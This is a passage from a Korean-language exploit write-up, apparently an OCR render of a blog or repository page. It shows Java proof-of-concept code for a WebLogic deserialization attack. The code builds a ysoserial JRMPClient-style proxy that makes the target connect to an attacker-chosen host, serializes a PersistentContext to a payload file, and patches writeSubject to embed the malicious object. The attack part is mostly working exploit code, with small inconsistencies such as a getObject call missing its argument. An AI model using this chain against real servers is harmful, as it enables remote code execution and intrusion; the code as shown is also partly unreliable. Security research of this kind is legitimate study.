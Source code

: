 ```java
        public static Registry getObject(String command) throws Exception {
            int sep = command.indexOf(58);
            String host;
            int port;
            if (sep < 0) {
                port = (new Random()).nextInt(65535);
                host = command;
            } else {
                host = command.substring(0, sep);
                port = Integer.valueOf(command.substring(sep + 1));
            }

            ObjID id = new ObjID((new Random()).nextInt());
            TCPEndpoint te = new TCPEndpoint(host, port);
            UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
            RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
            Registry proxy = (Registry)Proxy.newProxyInstance(ysoserial.payloads.JRMPClient.class.getClassLoader(), new Class[]{Registry.class}, obj);
            return proxy;
        }
        public static void main(String[] args) throws IOException{
            System.setProperty("com.bea.core.internal.client","true");
            //KernelStatus.setIsServer(true);
            PersistentContext pc = new PersistentContext(null,null,null,null,null);
            FileOutputStream fos = new FileOutputStream("poc.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fos);
            objectOutputStream.writeObject(pc);
            objectOutputStream.close();
        }
    }
```
위 java code가 main poc 코드입니다. 위 poc 클래스를 이용해 직렬화 데이터를 만들어야 합니다.<br>

```java
private void writeSubject(ObjectOutputStream var1) throws IOException {
    ByteArrayOutPutStream var2 = new ByteArrayOutputStream();
    ObjectOutputStream var3 = new ObjectOutputStream(var2);
    
//    if (SubjectManager.getSubjectManager().isKernelIdentity(this._subject)) {
//        AuthenticatedSubject var4 = (AuthenticateSubject)SubjectManager.
//        getSubjectManager().getAnonymousSubject();
//        var3.writeObject(var4);
//    } else {
//        var3.writeObject(this._subject);
//    }
[+] var3.writeObject(Poc.getObject());

    var3.flush();
    byte[] var5 = var2.toByteArray();
    
//    if (KernelStatus.isServer()) {
//        var5 = EncryptionUtil.encrypt(var5);
//    }
    var5 = EncryptionUtil.encrypt(var5);
    
    var1.writeInt(var5.length);
    var1.write(var5);
}
```
위와 같이 writeSubject 메서드에서 `Poc.getObject`를 추가하면 됩니다. 하지만 일단 직렬화 데이터를 만들기 전에는 4가지 문제점이 생기는데 이를 모두 해결해줘야 합니다.<br>
